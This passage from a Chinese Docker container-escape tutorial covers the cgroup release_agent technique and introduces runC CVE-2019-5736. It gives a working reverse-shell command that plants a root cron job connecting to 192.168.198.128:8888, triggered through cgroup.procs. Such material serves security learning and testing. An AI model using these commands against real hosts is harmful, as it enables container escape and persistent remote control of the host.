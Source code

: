![image-20231008151559045](Docker逃逸.assets/image-20231008151559045.png)

如上图所示，成功获取到宿主机根目录的flag.txt的内容，同理，我们将上面poc中的echo中的命令修改为反弹shell的命令，即可进行反弹shell，获得宿主机的权限。

```text
echo "echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root">> /cmd 
chmod a+x /cmd 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```

![image-20231008151609076](Docker逃逸.assets/image-20231008151609076.png)

## **runC逃逸-CVE-2019-5736**

cve-2019-5736属于docker环境逃逸类型漏洞，该漏洞利用runC文件被覆盖，当管理员通过exec进入容器的时候，触发payload，从而达到逃逸  。个人理解这种方式利用的条件其实比较苛刻，主要苛刻在宿主机中必须有管理员使用exec进入当前docker环境，如果宿主机没有在运行EXP后进入该容器的话，是无法进行逃逸的。

### **影响版本**

```text
docker version <=18.09.2 RunC version <=1.0-rc6
```
